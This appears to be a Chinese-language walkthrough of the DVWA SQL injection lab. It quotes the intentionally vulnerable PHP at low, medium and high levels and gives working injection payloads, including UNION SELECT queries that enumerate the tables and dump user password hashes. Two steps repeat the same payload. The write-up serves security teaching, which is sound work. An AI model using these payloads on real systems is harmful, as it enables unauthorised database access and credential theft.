









## SQL Injection 

SQL 注入是客戶端向應用程式輸入數據，透過插入sql查詢語句來進行攻擊
成功的SQL注入攻擊可以從數據庫中讀取敏感數據、修改資料庫數據，對資料庫進行管理操作

### LOW Level 

關鍵SourceCode
```php
 <?php

if(isset( $_REQUEST['Submit'])){
    // Get input
    $id = $_REQUEST['id'];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query) or die('<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>');

    // Get results
    while($row = mysqli_fetch_assoc($result)){
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?> 
```

這個程式碼可以看出，對查詢語句id有完全信任，沒有進行任何過濾。
使用mysqli_fetch_assoc()函式取得資料後輸出。


輸入 1' or '1' = '1
讓語法變為恆等，秀出所有資料


判斷可控列

    ' or 1 = 1 order by 1 #

井字號代表註釋掉後面語法，order by 列位數

當order by 3 時會報錯，代表有兩列可控

獲取table 全部表名稱

    1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa' #


可以得知table 總共有guestbook、users這兩張表
獲取table欄位名稱

    1' or 1 = 1 union select group_concat(user_id),group_concat(password) from users #



取得password 

    1' or 1 = 1 union select group_concat(user_id),group_concat(password) from users #


### Medium Level 
文本框被換成下拉式選單


Source Code 
```php
    <?php

if(isset($_POST['Submit'])){
    // Get input
    $id = $_POST['id'];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while($row = mysqli_fetch_assoc($result)){
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
程式碼使用mysql_real_escape_string()保護
只說特殊字串都會被轉義

使用BurpSuite 抓包來修改字段，仍然可以造成攻擊

把資訊寫在抓包id中，進行攻擊。(其餘相同)


### HIGH Level 

輸入值將在另一個頁面輸入，而不是直接GET請求



```php
<?php

if(isset($_SESSION ['id'])){
    // Get input
    $id = $_SESSION['id'];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while($row = mysqli_fetch_assoc($result)){
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```
程式源碼只增加了 LIMIT 1 ，我們仍就可以用#註釋掉

查詢跟提交使用不同頁面顯示，目的是要防止sqlmap
sqlmap在注入過程無法查詢提交頁面上的查詢結果，因此收不到任何反饋，沒辦法更進一步注入


